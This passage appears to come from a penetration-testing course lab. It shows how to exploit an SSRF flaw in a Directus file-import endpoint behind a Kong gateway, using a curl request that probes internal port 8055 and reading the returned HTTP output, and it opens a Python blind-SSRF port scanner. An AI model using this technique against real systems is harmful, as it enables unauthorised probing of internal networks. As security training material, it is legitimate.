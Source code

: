 A quick Google search reveals that the default port for Directus is 8055. Let's try out that port on localhost.

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://localhost:8055/"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 16:35:58 GMT
X-Kong-Upstream-Latency: 35
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
Listing 26 - Exploiting SSRF with localhost port 8055

The server returned the "FORBIDDEN" error code, so we did request a valid resource. We can easily verify that TCP port 8055 is closed externally on the Kong API Gateway server. We are likely dealing with two or more servers in this scenario.

Figure 3: Server diagram
Figure 3: Server diagram
This example proves we can leverage the SSRF vulnerability to discover more information about the internal network.

Exercises
Repeat the steps above.
Use the SSRF vulnerability to access a non-HTTP service running on your Kali host. What is the result? How might this be useful?
Try to identify more error messages. What happens if you request an invalid IP address?
9.4.4. Port Scanning via Blind SSRF
Even though we can't access the results of the SSRF vulnerability, we can still use the different HTTP response codes and error messages to determine if we've requested a valid resource. We can use this information to write a script that will exploit the SSRF vulnerability and act as a port scanner.

Rather than scan every single port, we will start with a small list of common services and HTTP ports. Any port scanning through an SSRF vulnerability is going to take longer than a dedicated tool, such as Nmap. Therefore, we want to limit our initial attempts to common ports to speed up our scan. If the initial results are negative, we can expand the range of ports with subsequent scans.

Let's create a new file named ssrf_port_scanner.py for our next script. We will again start with the shebang and imports.

#!/usr/bin/env python3

import argparse
import requests
Listing 27 - SSRF port scanner imports
